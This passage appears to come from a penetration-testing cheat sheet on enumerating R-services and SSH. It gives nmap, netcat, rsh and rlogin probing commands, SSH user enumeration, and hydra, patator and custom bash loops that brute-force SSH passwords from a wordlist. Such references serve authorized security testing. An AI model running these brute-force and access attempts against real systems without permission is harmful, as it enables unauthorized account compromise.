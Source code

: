 ### R-Service Enumeration
```bash
# Check for R-Services
nmap -p513,514 target

# Banner grabbing
nc target 513
nc target 514

# RSH access attempt
rsh target command
rsh target -l username command

# RLOGIN access attempt
rlogin target
rlogin target -l username
```

### R-Service Security Issues
1. **No Encryption**: All communication in plain text
2. **Weak Authentication**: Host-based authentication only
3. **Information Disclosure**: Verbose error messages
4. **Privilege Escalation**: Potential for root access
5. **Network Sniffing**: Credentials transmitted in clear text

## Advanced Enumeration Techniques

### SSH Advanced Enumeration
```bash
# SSH user enumeration
nmap -p22 --script ssh-enum-users target

# SSH host key fingerprinting
ssh-keygen -l -f /etc/ssh/ssh_host_rsa_key.pub

# SSH configuration analysis
ssh -T -o StrictHostKeyChecking=no target

# SSH tunneling detection
netstat -tlnp | grep :22
```

### SSH Brute Force
```bash
# Hydra SSH brute force
hydra -l username -P passwords.txt ssh://target

# Patator SSH brute force
patator ssh_login host=target user=username password=FILE0 0=passwords.txt

# Custom SSH brute force
#!/bin/bash
for pass in $(cat passwords.txt); do
    sshpass -p $pass ssh username@target "echo success" 2>/dev/null && echo "Password found: $pass"
done
```

